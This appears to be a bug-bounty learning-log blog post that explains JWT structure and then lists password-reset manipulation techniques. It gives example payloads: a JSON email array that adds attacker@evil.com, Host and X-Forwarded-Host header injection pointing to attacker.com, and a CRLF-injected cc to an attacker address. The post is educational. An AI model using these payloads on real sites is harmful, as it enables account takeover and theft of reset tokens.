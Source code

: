 ```yaml
---
title:  "Day 21/100 Hack and Improvement"
date: 2020-05-21
tags: [Penetration Testing, Hacking, Bug Bounty, Offensive Security]
header: 
  image: "assets/images/100dl/day21/header.jpg"
---
```


Day 21 comes with JWT tokens and cool forgotten password functions!

## Json Web Token (JWT)

From [Rajesh Ranjan](https://twitter.com/eh_rajesh). JSON Web Token (JWT) is an open standard (RFC 7519) that defines a compact and self-contained way for securely transmitting information between parties as a JSON object. This information can be verified and trusted because it is digitally signed. The JWT consist of three main parts separated by dots (.)

A simple JWT will look like:
```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ.SflKxwRJSMeKKF2QT4fwpMeJf36POk6yJV_adQssw5c
```

So the first part i.e ```eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9``` is Header, second part i.e ```eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ``` is Payload and the third part i.e ```SflKxwRJSMeKKF2QT4fwpMeJf36POk6yJV_adQssw5c``` is signature.

### Header
The first part consist of two things; the type of the token which is JWT, and the algorithm being used such as RSA, HMAC, or SHA256. PS! If you don’t define the algorithm, it uses HS256 by default.
```
{
"alg": "HS256",
"typ": "JWT"
}
```

### Payload
The second part is the actual data, we can also add additional information known as claims which is optional such as the expiration time (exp), subject (sub), or issuer (iss). Notice the claim names are short, that is because JWT is meant to be compact for fast requests.
Don’t put sensitive data such as password in your payload thus this can easily be decoded.
```
{
"sub": "2311",
"name": "Mike Tyson",
"admin": true
}
```

### Signature
The last part is the signature which is the sum of the encoded header, the encoded payload, a secret, and lastly the algorithm which is specified in the header. The signature is the most important part of the JWT structure. The header and payload can easily be decoded, but not the signature. The reason why is because it checks two things; first verify the header and payload has not been altered, and secondly check the private key is valid to make sure the sender is who it is

## Cool Forgot Password functions

From [Sam (CoffeeJunkie)](https://twitter.com/coffeejunkiee_). Everyone in the internet world has experienced a moment with the "forgot password" function which can be very useful for attackers in order to achieve account take overs!

### Cases where "forgot password function can be manipulated"

### Case 1
By the usage of **json** in the post request, a normal reset password should look like this. 
```json
{"email":"victim@domain.com"}
```

An attacker can manipulate the json by making it look as a list with the following change. 
```json
{"email":["victim@domain.com","attacker@evil.com"]}
```
Therefore, the attacker will have a pretty good chance to receive the email if there is not a correct validation in the server side. 

### Case 2 

If the target site allows header injection, the attacker can add the following headers in the request in order to obtain the token in the attackers server. This is the first case with a simple host header injection where the token should go to the attackers location.
```
Host: domain.com
Host: attacker.com
```

The other scenario comes where the attacker is able to inject a ```X-Forwarded-Host``` in the header of the request. In this case, the request and the token should be forwarded to the attackers side. 
```
Host: domain.com 
X-Forwarded-Host: attacker.com 
```

### Case 3

Depending on the case and the content type that the request is using, the attacker might be able to test the following parameters. 
```
email="victim@mail.tld%0a%0dcc:attacker@mail.tld"
```
Where the attacker should be able to receive the victims email as well. 


